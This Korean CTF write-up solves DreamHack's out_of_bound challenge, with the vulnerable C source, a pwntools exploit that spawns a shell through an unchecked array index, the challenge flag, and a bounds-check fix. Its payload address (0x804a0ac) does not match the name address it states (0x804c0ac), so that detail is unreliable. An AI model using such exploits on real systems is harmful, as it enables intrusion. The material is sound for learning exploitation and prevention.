




# B4 · out_of_bound

### 1. 코드 확인 — 사용자 입력이 배열 인덱스로 이어지는 흐름

전역 배열 `name`에 입력을 받고, 사용자가 입력한 `idx`로 전역 포인터 배열 `command`를 선택한 다음 `system`에 전달합니다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char name[16];

char *command[10] = {
    "cat",
    "ls",
    "id",
    "ps",
    "file ./oob"
};

void alarm_handler(int signum)
{
    (void)signum;
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");
    scanf("%d", &idx);

    system(command[idx]);
    return 0;
}
```

`read(0, name, sizeof(name))`은 표준 입력에서 최대 16바이트를 전역 배열 `name`에 씁니다. 이 줄 자체는 배열 크기를 넘지 않습니다. 취약점은 다음의 `command[idx]`에서 `idx`의 범위를 검사하지 않는 점입니다. 배열은 10칸이므로 유효한 인덱스는 0~9지만, 21을 넣어도 프로그램은 그 위치의 포인터 값을 읽어 `system`에 넘깁니다.

`system(command[idx])`는 선택된 포인터가 가리키는 문자열을 셸 명령으로 실행합니다. 따라서 배열 밖의 위치에 `/bin/sh`를 가리키는 포인터를 준비하면 셸이 실행됩니다.

### 2. 익스플로잇 코드

<p align="center">
  
</p>

아래는 입력을 읽기 쉽게 풀어 쓴 코드입니다. 서비스 인스턴스를 다시 시작하면 DreamHack 포트가 바뀔 수 있으므로 현재 문제 화면에 표시된 포트를 넣습니다.

```python
from pwn import *

p = remote("host3.dreamhack.games", 18187)

# name[0:8]에는 문자열, name[8:12]에는 문자열 주소를 기록
payload = b"/bin/sh\x00" + p32(0x804a0ac)

p.sendline(payload)
p.sendline(b"21")
p.interactive()
```

아래는 `idx=21`이 왜 `name` 안쪽을 읽는지와 페이로드 각 부분이 하는 일을 본 것입니다.

### 3. 주소 확인 — 배열 밖 인덱스가 name의 일부를 가리킴

<p align="center">
  
</p>

GDB에서 확인한 로컬 바이너리의 주소는 `command=0x804c060`, `name=0x804c0ac`입니다. 두 시작 주소의 차이는 아래처럼 76바이트입니다.

<p align="center">
  
</p>

32비트 바이너리에서 포인터 한 칸은 4바이트입니다. C의 배열 인덱스 `command[idx]`는 메모리 주소로 `command 시작 주소 + idx × 4` 위치의 포인터를 읽는 것과 같습니다.

```text
name 시작 주소 - command 시작 주소
= 0x804c0ac - 0x804c060
= 0x4c
= 76바이트

command[21]의 위치
= command 시작 주소 + 21 × 4
= command 시작 주소 + 84
= name 시작 주소 + (84 - 76)
= name 시작 주소 + 8
```

즉, `command[21]`은 배열의 실제 10칸을 한참 벗어나며, 이 로컬 주소 배치에서는 그 메모리 위치가 `name[8]`부터 시작합니다. `idx=21`을 고르는 이유는 21 자체에 특별한 기능이 있어서가 아니라, 배열 바깥에서 페이로드가 써 둔 포인터 4바이트가 놓인 위치를 읽기 위해서입니다.

### 4. 페이로드 설명 — 문자열과 그 주소를 차례로 배치

입력 바이트를 나누면 다음과 같습니다.

```text
name + 0  ~ name + 7   : b"/bin/sh\x00"
name + 8  ~ name + 11  : p32(0x804a0ac)
```

- `b"/bin/sh\x00"`은 `name` 맨 앞에 셸 명령 문자열을 씁니다. 널 바이트 `\x00`가 문자열의 끝을 표시합니다.
- `p32(0x804a0ac)`는 숫자 주소를 32비트 리틀엔디안 4바이트로 바꿉니다. 이 4바이트가 `name+8`에 놓이고, 이는 위 계산에서 `command[21]`이 읽는 위치입니다.
- 이 주소는 **문자열이 있는 곳을 가리켜야** 합니다. `p32`가 주소를 유효하게 만드는 것은 아닙니다. 그저 숫자를 메모리에 저장할 바이트 형태로 포장합니다.
- `sendline`은 각 입력 끝에 줄바꿈을 붙입니다. 첫 줄은 `read`가 최대 16바이트까지 읽고, 다음 줄의 `21`은 `scanf("%d", &idx)`가 읽습니다.

전체 실행은 `name에 데이터 기록 → idx=21 입력 → command[21]이 name+8의 포인터를 읽음 → 그 포인터가 name의 /bin/sh 문자열을 가리킴 → system이 /bin/sh 실행` 순서입니다.

### 5. 실행 결과 — 대화형 셸에서 FLAG 확인

<p align="center">
  
</p>

`p.interactive()`는 연결된 프로그램과 현재 터미널 사이에서 입력과 출력을 이어 줍니다. 셸이 열리면 `ls`로 파일을 확인하고 `cat flag`로 FLAG 파일 내용을 출력할 수 있습니다.

```text
DH{2524e20ddeee45f11c8eb9180d572963}
```

위 값을 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣어 제출합니다.

### 6. 취약점 예방법

입력 인덱스가 실제로 초기화된 명령 범위 안에 있는지 검사해야 합니다. 이 코드에서 명령 문자열은 5개만 초기화되어 있으므로, 사용 가능한 범위를 0~4로 제한하는 편이 안전합니다.

```c
if (scanf("%d", &idx) != 1 || idx < 0 || idx >= 5) {
    puts("Invalid choice");
    return 1;
}
system(command[idx]);
```

더 안전한 방식은 `system`에 문자열을 넘기지 않고, 허용된 선택지를 `switch`로 분기해 고정된 실행 파일과 인자를 직접 실행하는 것입니다. 배열 인덱스 범위 검사는 음수와 배열 끝 이후의 값 모두에 적용해야 합니다.
